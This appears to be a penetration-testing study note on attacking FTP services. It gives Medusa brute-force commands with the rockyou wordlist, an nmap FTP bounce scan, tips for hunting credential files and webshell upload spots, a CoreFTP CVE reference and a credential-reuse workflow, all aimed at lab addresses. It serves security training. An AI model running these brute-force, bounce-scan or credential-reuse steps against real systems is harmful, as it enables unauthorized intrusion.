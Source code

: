 ```yaml
---
title: "Attacking Common Services — FTP"
tags: [attacking-common-services, ftp, enumeration, brute-force]
tools: [nmap, medusa, hydra, ftp, smbclient, curl, wget]
---
```


# FTP

## Common Attacks

### Brute forcing with Medusa (example)

```bash
# single user
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp

# multi-user, custom port, threaded
medusa -U users.list -P passwords.list -h 10.129.203.6 -n 2121 -M ftp -t 10
```

### FTP Bounce (proxying scan through an FTP server)

```bash
# Use anonymous FTP as bounce to scan target host
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```

## Enumeration & Tips

- Always check for anonymous login and list directories (`ftp`, `smbclient`, or `curl`/`wget` for HTTP-style listings).
- Try common alternative ports (e.g., 2121, 30021) if standard port 21 is closed.
- If you find user directories, grep for config/creds files and common filenames: `creds.txt`, `notes.txt`, `mynotes.txt`, `backup*.zip`.
- When FTP serves webroot directories (e.g., `C:\xampp\htdocs`), look for `test.php`, `docs.txt`, or webshell upload opportunities.

## Known Vulnerabilities

- CoreFTP Server Version 2.0 build 727 — CVE-2022-22836 (investigate exploitable paths and proof-of-concept availability).

## Example Workflow

1. `nmap -sV -p21,2121,30021 <target>`
2. Attempt anonymous login: `ftp <ip> <port>` → `anonymous` / `anonymous`
3. If files present, download and scan for plaintext credentials or hints.
4. If credentials found, attempt SSH/SMB/RDP with discovered usernames/passwords.
